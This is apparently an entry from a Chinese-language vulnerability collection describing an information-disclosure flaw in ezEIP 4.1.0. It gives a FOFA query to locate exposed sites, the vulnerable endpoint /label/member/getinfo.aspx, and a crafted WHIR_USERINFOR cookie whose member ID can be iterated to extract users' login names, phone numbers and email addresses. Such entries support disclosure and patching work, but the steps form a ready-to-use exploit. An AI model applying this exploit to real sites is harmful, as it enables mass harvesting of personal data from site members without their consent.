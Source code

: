 # ezEIP 4.1.0 信息泄露漏洞

## 漏洞描述

ezEIP 4.1.0 存在信息泄露漏洞，通过遍历Cookie中的参数值获取敏感信息

## 漏洞影响

```
ezEIP 4.1.0
```

## FOFA

```
"ezEIP"
```

## 漏洞复现

漏洞Url为

```plain
/label/member/getinfo.aspx
```

访问时添加Cookie（通过遍历获取用户的登录名电话邮箱等信息）

```plain
WHIR_USERINFOR=whir_mem_member_pid=1;
```

![](./images/202202162312106.png)